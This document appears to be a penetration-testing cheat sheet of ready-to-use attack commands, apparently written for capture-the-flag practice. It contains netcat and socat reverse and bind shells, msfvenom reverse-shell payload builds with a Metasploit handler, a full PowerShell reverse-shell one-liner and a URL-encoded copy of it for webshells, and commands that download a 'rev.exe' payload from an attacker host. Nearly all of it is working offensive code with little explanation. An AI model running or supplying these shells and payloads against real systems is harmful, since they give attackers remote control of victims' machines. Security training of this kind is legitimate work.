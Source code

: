 # SUMMARY OF SCRIPTS AND USER CASES

## NMAP 
```
sudo nmap -sS -sV -sC -T4 --min-rate 8888 $TARGET -vv
# -sS: stealth
# -sC: scripting
# -sV: service detection
# -T4: aggresiveness
# --min-rate: packet strength 

nmap -sV --script=http-enum $TARGET
```
## NETCAT 
```
#REVERSE SHELL 
nc -lvnp <port-number>
# -l: listen
# -v: verbose
# -n: no dns resolve
# -p: specify port
nc -lvnp 4444

#BIND SHELL
nc <target-ip> <port-number>
# This will connect to the listener
nc 10.10.10.10 4444
```

**STABILIZE SHELL**. 
```
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
`Ctrl + z` 
ssty raw -echo; fg
```


**BIND SHELL PRACTICE for netcat without -e**
```
PORT=4444
mkfifo /tmp/f; nc -lvnp $PORT < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

# ATTACKER MACHINE WILL HAVE TO CONNECT TO VICTIM 
```

**REVERSE SHELL PRACTICE for netcat without -e**
```
IP=10.10.93.13
PORT=4444
mkfifo /tmp/f; nc $IP $PORT < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

# VICTIM MACHINE WILL CONNECT TO YOU, SO ATTACKER MACHINE SHOULD HAVE LISTENER OPEN BEFORE CONNECTION 
```

## SOCAT ENCRYPTED SHELLS
```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt 
cat shell.crt shell.key > shell.pem


# TO START THE ENCRYPTED LISTENER
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -

# TO CONNECT TO THE LISTENER
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

## MSFVENOM 

Windows
```
# STAGED
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe

# STAGELESS
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe
```

LINUX
```
# STAGED 
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf
# STAGELESS 
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf
```

Once payload is created. Run multi handler 
```
msfconsole -q
use multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 10.10.10.10
set LPORT 4444
exploit -j # To run as background job 
```


```
Find files:

find . -name flag1.txt: find the file named “flag1.txt” in the current directory
find /home -name flag1.txt: find the file names “flag1.txt” in the /home directory
find / -type d -name config: find the directory named config under “/”
find / -type f -perm 0777: find files with the 777 permissions (files readable, writable, and executable by all users)
find / -perm a=x: find executable files
find /home -user frank: find all files for user “frank” under “/home”
find / -mtime 10: find files that were modified in the last 10 days
find / -atime 10: find files that were accessed in the last 10 day
find / -cmin -60: find files changed within the last hour (60 minutes)
find / -amin -60: find files accesses within the last hour (60 minutes)
find / -size 50M: find files with a 50 MB size
```

note always add `2>/dev/null` so you can filter the errors 
```

find / -writable -type d 2>/dev/null : Find world-writeable folders
find / -perm -222 -type d 2>/dev/null: Find world-writeable folders
find / -perm -o w -type d 2>/dev/null: Find world-writeable folders
```

after entering 
clone this 
https://github.com/mzet-/linux-exploit-suggester and use it 


## POWERSHELL
> CHANGE `<ip>` and `<port>`
  
  
One liner reverse shell 
```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

same one liner reverse shell but url encoded for webshells
```powershell
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

DownloadFile 
```
Invoke-WebRequest -Uri 'http://10.10.167.187:8888/rev.exe' -OutFile '.\rev.exe'
```
## CMD

search files in all directories and subdirectories of the current drive
```
dir /s root.txt
```

Download Files
```
@echo off
bitsadmin /transfer myDownloadJob /download /priority high http://10.10.167.187:8888/rev.exe %cd%\rev.exe
```
Download file in Batch Via Powershell Module
```
powershell -command "Invoke-WebRequest -Uri 'http://10.10.167.187:8888/rev.exe' -OutFile '.\rev.exe'"
```

## Windows 
> Common Hackable components

Writable Path for Windows
`C:\Windows\Temp`